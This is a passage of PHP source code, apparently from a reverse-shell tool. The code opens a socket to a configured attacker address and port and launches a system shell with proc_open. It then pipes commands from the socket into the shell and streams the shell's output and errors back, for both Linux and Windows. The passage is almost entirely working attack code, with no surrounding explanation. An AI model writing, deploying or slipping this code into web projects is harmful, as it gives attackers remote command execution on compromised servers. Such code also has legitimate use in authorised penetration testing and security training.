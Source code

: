 ````php
            $socket = @fsockopen($this->addr, $this->port, $errno, $errstr, 30);
            if (!$socket) {
                echo "SOC\_ERROR: {$errno}: {$errstr}\\n";
            } else {
                stream\_set\_blocking($socket, false); // set the socket stream to non-blocking mode | returns 'true' on Windows OS

                // ----- SHELL BEGIN -----
                $process = @proc\_open($this->shell, $this->descriptorspec, $pipes, null, null);
                if (!$process) {
                    echo "PROC\_ERROR: Cannot start the shell\\n";
                } else {
                    foreach ($pipes as $pipe) {
                        stream\_set\_blocking($pipe, false); // set the shell streams to non-blocking mode | returns 'false' on Windows OS
                    }

                    // ----- WORK BEGIN -----
                    $status = proc\_get\_status($process);
                    @fwrite($socket, "SOCKET: Shell has connected! PID: " . $status\['pid'\] . "\\n");
                    do {
						$status = proc\_get\_status($process);
                        if (feof($socket)) { // check for end-of-file on SOCKET
                            echo "SOC\_ERROR: Shell connection has been terminated\\n"; break;
                        } else if (feof($pipes\[1\]) || !$status\['running'\]) {                 // check for end-of-file on STDOUT or if process is still running
                            echo "PROC\_ERROR: Shell process has been terminated\\n";   break; // feof() does not work with blocking streams
                        }                                                                    // use proc\_get\_status() instead
                        $streams = array(
                            'read'   => array($socket, $pipes\[1\], $pipes\[2\]), // SOCKET | STDOUT | STDERR
                            'write'  => null,
                            'except' => null
                        );
                        $num\_changed\_streams = @stream\_select($streams\['read'\], $streams\['write'\], $streams\['except'\], 0); // wait for stream changes | will not wait on Windows OS
                        if ($num\_changed\_streams === false) {
                            echo "STRM\_ERROR: stream\_select() failed\\n"; break;
                        } else if ($num\_changed\_streams > 0) {
                            if ($this->os === 'LINUX') {
                                if (in\_array($socket  , $streams\['read'\])) { $this->rw($socket  , $pipes\[0\], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (in\_array($pipes\[2\], $streams\['read'\])) { $this->rw($pipes\[2\], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (in\_array($pipes\[1\], $streams\['read'\])) { $this->rw($pipes\[1\], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            } else if ($this->os === 'WINDOWS') {
                                // order is important
                                if (in\_array($socket, $streams\['read'\])/\*------\*/) { $this->rw ($socket  , $pipes\[0\], 'SOCKET', 'STDIN' ); } // read from SOCKET and write to STDIN
                                if (($fstat = fstat($pipes\[2\])) && $fstat\['size'\]) { $this->brw($pipes\[2\], $socket  , 'STDERR', 'SOCKET'); } // read from STDERR and write to SOCKET
                                if (($fstat = fstat($pipes\[1\])) && $fstat\['size'\]) { $this->brw($pipes\[1\], $socket  , 'STDOUT', 'SOCKET'); } // read from STDOUT and write to SOCKET
                            }
                        }
                    } while (!$this->error);
                    // ------ WORK END ------

                    foreach ($pipes as $pipe) {
````